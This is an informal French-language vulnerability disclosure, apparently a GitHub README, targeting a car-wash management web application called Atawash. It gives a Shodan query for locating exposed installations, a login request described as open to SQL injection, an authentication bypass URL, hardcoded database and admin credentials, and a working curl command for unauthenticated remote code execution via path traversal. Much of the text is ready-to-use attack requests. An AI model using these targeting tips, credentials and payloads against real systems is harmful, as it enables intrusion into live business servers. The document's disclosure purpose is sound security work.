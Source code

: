 ![autowash-5th-element](https://github.com/Ug0Security/Atawash/assets/28728543/1dd4431c-3469-4514-9398-7ffa71aa71ef)

Je rentre de vacances et j'ai pas de mission..

shodan : http.favicon.hash:-991649870

--- SQLi sur le login mais time based on se fait chier ---


POST /index_connexion_atawa.php?resolution=1920x1080 HTTP/1.1
Host: xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: xx
Connection: close
Cookie: PHPSESSID=ww
Upgrade-Insecure-Requests: 1

login=test&pwd=test



--- Vlà les manques de controle d'accès sur les fichiers .php dont route sont décritent dans les fichiers js--- 

/choix/choix_version_svg.php?resolution=1920x1080
/config/configubuntu.php?resolution=1920x1080
...

--- Bypass auth super-admin (alors celle la..) ---

/systeme/super_administrateur.php?resolution=1920x1080 (oh lala besoin d'un mdp..)
/systeme/super_administrateur.php?resolution=1920x1080&code=ok (ah non c'est bon)


--- Hardcoded creds ---

/phpmyadminatawa/index.php (MySQL_Atawa:Atawa&13)
/systeme/super_administrateur.php (33310 - hardcoded dans le js..)

--- UnAuth RCE (ayayay vie d'ma mèrrrrrr)---

curl -F "script_name=../../../../../../../../../usr/bin/id" http://url:port/systeme/get_monitor_script.php

